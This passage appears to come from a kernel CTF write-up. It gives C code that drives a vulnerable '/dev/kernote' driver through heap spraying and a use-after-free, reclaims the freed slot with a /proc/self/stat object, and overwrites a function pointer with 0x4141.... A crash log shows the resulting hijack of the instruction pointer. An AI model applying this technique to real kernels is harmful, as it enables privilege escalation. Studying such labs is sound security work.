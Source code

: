 ```c
    return ioctl(kfd, ALLOC_ENTRY, idx);
}

static int free_entry(uint64_t idx)
{
    return ioctl(kfd, FREE_ENTRY, idx);
}

static int write_note(uint64_t val)
{
    return ioctl(kfd, WRITE_NOTE, val);
}

int main(void)
{
    kfd = open("/dev/kernote", O_RDWR);
    assert(kfd > 0);

    for (int i = 0; i < 0x100; i++) {
        alloc_entry(0);
    }
    alloc_entry(1);
    set_note(1);
    free_entry(1);

    int fd = open("/proc/self/stat", O_RDONLY);

    write_note(0x4141414141414141);

    char buf[32] = {};
    read(fd, buf, sizeof(buf));

    return 0;
}
```

```
[    3.856543] general protection fault, probably for non-canonical address 0x4141414141414141: 0000 [#1] SMP PTI
[    3.858362] CPU: 0 PID: 141 Comm: pwn Tainted: G           OE     5.11.9 #2
[    3.859598] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.14.0-2 04/01/2014
[    3.861074] RIP: 0010:__x86_indirect_thunk_rax+0x3/0x5
[    3.861995] Code: 06 d7 ff 31 c0 e9 43 06 d7 ff <...>
[    3.865260] RSP: 0018:ffffc90000253dc0 EFLAGS: 00010246
[    3.866187] RAX: 4141414141414141 RBX: ffffc90000253e60 RCX: 0000000000000000
[    3.867440] RDX: 0000000000000000 RSI: ffff888004d47be0 RDI: ffff888004d47bb8
[    3.868698] RBP: ffffc90000253e18 R08: 0000000000001000 R09: ffff888003c63000
[    3.869960] R10: ffffc90000253e68 R11: 0000000000000000 R12: 0000000000000000
[    3.871217] R13: ffff888004d47bb8 R14: ffff888004d47be0 R15: ffffc90000253ef0
[    3.872474] FS:  0000000001e68380(0000) GS:ffff888007600000(0000) knlGS:0000000000000000
[    3.873898] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    3.874914] CR2: 000000000048afd0 CR3: 0000000004cca000 CR4: 00000000003006f0
```
